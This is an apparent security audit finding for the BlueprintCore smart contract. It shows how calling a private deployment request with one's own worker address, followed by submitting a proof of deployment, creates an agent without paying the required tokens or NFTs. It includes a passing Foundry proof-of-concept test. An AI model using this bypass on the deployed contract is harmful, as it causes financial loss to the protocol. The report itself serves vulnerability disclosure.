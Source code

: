 Melted Steel Puppy

High

# User can create agent without paying some tokens or nft

## Vulnerability details

The `BlueprintCore` contract facilitates users to create agent via `createAgentWithToken()`, `createAgentWithNFT()`, etc. where the user must store some tokens or nfts to pay their agent. But, this rule can be bypassed with a user calls `createProjectIDAndPrivateDeploymentRequest()` function directly to avoid storing tokens or nft to the protocol.

```solidity
function createProjectIDAndPrivateDeploymentRequest(
        bytes32 projectId,
        string memory base64Proposal,
        address privateWorkerAddress,
        string memory serverURL
    ) public returns (bytes32 requestID) {
        requestID = createCommonProjectIDAndDeploymentRequest(
            msg.sender, projectId, base64Proposal, privateWorkerAddress, serverURL
        );
    }
```

Function above passes `privateWorkerAddress` as well. It causes the deployment status to be `Status.Pickup`.

```solidity
 function deploymentRequest(
        address userAddress,
        bytes32 projectId,
        address solverAddress,
        address workerAddress,
        string memory base64Proposal,
        string memory serverURL,
        uint256 index
    ) internal hasProject(projectId) returns (bytes32 requestID, bytes32 projectDeploymentId) {
    ...

    // when workerAddress is not same with dummy, automatically the status changes become pickup
    DeploymentStatus memory deploymentStatus = DeploymentStatus({
            status: (workerAddress == dummyAddress ? Status.Issued : Status.Pickup),
            deployWorkerAddr: workerAddress
        });

    requestDeploymentStatus[requestID] = deploymentStatus;
    ...
    }
```

Since the deployment status becomes `pickup`, the users can call `submitProofOfDeployment()`.

```solidity
function submitProofOfDeployment(bytes32 projectId, bytes32 requestID, string memory proofBase64)
        public
        hasProject(projectId)
    {
        // all requirement check had passed
        require(requestID.length > 0, "requestID is empty");
        require(requestDeploymentStatus[requestID].status != Status.Init, "requestID does not exist");
        require(requestDeploymentStatus[requestID].deployWorkerAddr == msg.sender, "Wrong worker address");
        require(requestDeploymentStatus[requestID].status != Status.GeneratedProof, "Already submitted proof");

        // set deployment status into generatedProof
        requestDeploymentStatus[requestID].status = Status.GeneratedProof;

        // save deployment proof to mapping
        deploymentProof[requestID] = proofBase64;

        emit GeneratedProofOfDeployment(projectId, requestID, proofBase64);
    }
```

The scenario above will look like `createProjectIDAndPrivateDeploymentRequest() -> createCommonProjectIDAndDeploymentRequest() -> receive requestID -> submitProofOfDeployment()`.

The normal scenario is `createAgentWithToken() -> createAgent() -> store tokens or nfts -> createCommonProjectIDAndDeploymentRequest() -> receive requestID -> submitProofOfDeployment()`. 

The difference is the scenario above create an agent without storing some tokens or nfts.

## Impact

Users can create agent without storing some tokens or nfts, causing loss to the protocol.

## Proof of concept

```solidity
function test_userCouldBypassPegged() public {
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";
        string memory proofBase64 = "proofBase64";
        bytes32 requestID;

        vm.startPrank(user);

        // 1. user calls createProjectIDAndPrivateDeploymentRequest
        requestID = blueprint.createProjectIDAndPrivateDeploymentRequest(
            projectId,
            base64Proposal,
            user,
            serverURL
        );

        // 2. user calls submitProofOfDeployment
        blueprint.submitProofOfDeployment(
            projectId,
            requestID,
            proofBase64
        );
        vm.stopPrank();

        string memory proofBase64Actual = blueprint.getDeploymentProof(requestID);

        assertEq(keccak256(abi.encode(proofBase64)), keccak256(abi.encode(proofBase64Actual)));
    }
```

```bash
Ran 1 test for test/BlueprintV5.t.sol:BlueprintTest
[PASS] test_userCouldBypassPegged() (gas: 238177)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 51.06ms (49.46ms CPU time)
```

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L416-L425